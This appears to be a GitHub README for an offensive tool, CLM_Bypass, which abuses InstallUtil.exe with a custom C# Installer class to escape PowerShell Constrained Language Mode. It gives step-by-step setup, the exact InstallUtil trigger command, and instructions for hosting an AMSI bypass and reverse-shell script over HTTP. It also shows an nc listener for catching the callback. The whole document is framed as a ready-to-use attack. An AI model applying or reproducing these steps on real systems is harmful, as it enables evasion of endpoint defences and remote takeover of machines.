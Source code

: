 
# 🛡️ CLM_Bypass

Bypass PowerShell **Constrained Language Mode (CLM)** using a custom C# Installer class and `InstallUtil.exe`. This technique enables **in-memory execution** of remote PowerShell payloads — including **AMSI bypass** and **reverse shells** — in Full Language Mode on restricted systems.

---

## ✨ Overview

This project takes advantage of how the .NET `System.Configuration.Install.Installer` class interacts with `InstallUtil.exe`. Instead of executing the program’s `Main()` method, we embed our logic in the `Uninstall()` method of an installer class, which is automatically triggered by the `/U` (uninstall) flag.

**Key benefits:**
- Executes PowerShell in **Full Language Mode**, even under CLM
- AMSI is bypassed before loading payload
- Scripts are loaded **remotely** via HTTP and executed in memory
- No need to spawn `powershell.exe`

---

## 📦 Setup

### 1. Clone the repository and open the project in Visual Studio

Include the provided C# source file in a Console App project.

### 2. Add References

Manually add references to the following assemblies:

- `System.Management.Automation.dll`  
  Path:  
  `C:\Program Files (x86)\Reference Assemblies\Microsoft\WindowsPowerShell\3.0\System.Management.Automation.dll`
  
- `System.Configuration.Install.dll`  
  (Usually available by default in .NET Framework projects)

In **Visual Studio**:  
Right-click project → Add Reference → Browse → Select both DLLs.

---

## 🚀 Execution

Trigger the payload using `InstallUtil.exe` with the uninstall flag:

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U .\CLM_Bypass.exe
```

Expected output:
```
Microsoft (R) .NET Framework Installation utility Version 4.8.x.x

The uninstall is beginning.
Uninstalling assembly 'CLM_Bypass.exe'.
Affected parameters:
   logtoconsole = true
   assemblypath = CLM_Bypass.exe
   logfile =
```

At this point:

✅ AMSI bypass (`amsi.txt`) is loaded  
✅ Reverse shell or payload (`shell.ps1`) is executed  
✅ You should receive a callback on your listener

---

## 🌐 Hosting Payloads

Make sure you have a local web server hosting the following:

- `amsi.txt` → AMSI bypass payload
- `shell.ps1` → Reverse shell or in-memory loader

Example using Python:

```bash
python3 -m http.server 80
```

---

## 🧪 Testing

To confirm the payload executed correctly:

1. Listen for the reverse shell:
   ```bash
   rlwrap -cAr nc -lvnp 443
   ```

2. Confirm incoming HTTP requests to:
   - `/amsi.txt`
   - `/shell.ps1`

3. Observe PowerShell command execution or interactive shell.

---

## 🧠 How It Works

- The `[RunInstaller(true)]` attribute marks the class as executable via `InstallUtil.exe`.
- The `Uninstall()` method is automatically invoked.
- A PowerShell **runspace** is created from C# in memory.
- AMSI is bypassed before invoking any downloaded PowerShell script.

This allows full script execution, even when the system enforces CLM and disables traditional PowerShell operations.

---
